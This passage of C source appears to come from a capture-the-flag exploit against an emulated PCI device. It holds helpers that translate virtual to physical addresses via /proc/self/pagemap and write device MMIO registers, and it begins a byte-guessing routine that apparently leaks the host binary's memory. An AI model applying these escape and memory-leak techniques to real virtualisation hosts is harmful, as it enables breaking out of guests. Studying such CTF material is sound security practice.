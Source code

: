        puts( "ERROR: mmap" );
    }

    close( fd );
    return result;
}

size_t virt_to_phys( void* addr )
{
    int fd = open( "/proc/self/pagemap", O_RDONLY );

    size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
    lseek( fd, offset, SEEK_SET );

    size_t page_frame_number = 0;
    read( fd, &page_frame_number, PAGEMAP_LENGTH );

    page_frame_number &= 0x7FFFFFFFFFFFFF;

    close( fd );

    return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
}

int get_pwidx( void )
{
    return *(int*)&mmio[20];
}

void ctf_set_io( int val )
{
    *(int*)&mmio[0] = val;
}

void set_pwidx( int val )
{
    *(int*)&mmio[4] = val;
}

void ctf_process_req( int val )
{
    *(int*)&mmio[8] = val;
}

void set_register_b( int val )
{
    *(int*)&mmio[20] = val;
}

void ctf_process_reply( void )
{
    *(int*)&mmio[24] = 0;
}

void ctf_add_cmd_data( int val )
{
    *(int*)&mmio[28] = val;
}

void leak_elf( unsigned char* guessed, int size )
{
    set_pwidx( '\xff' );

    unsigned char cur = 0;
    int g_idx = 4;
    while ( true ) {
        int g;
        for ( g = 0; g < g_idx; g++ ) {
            set_pwidx( guessed[g] );
        }
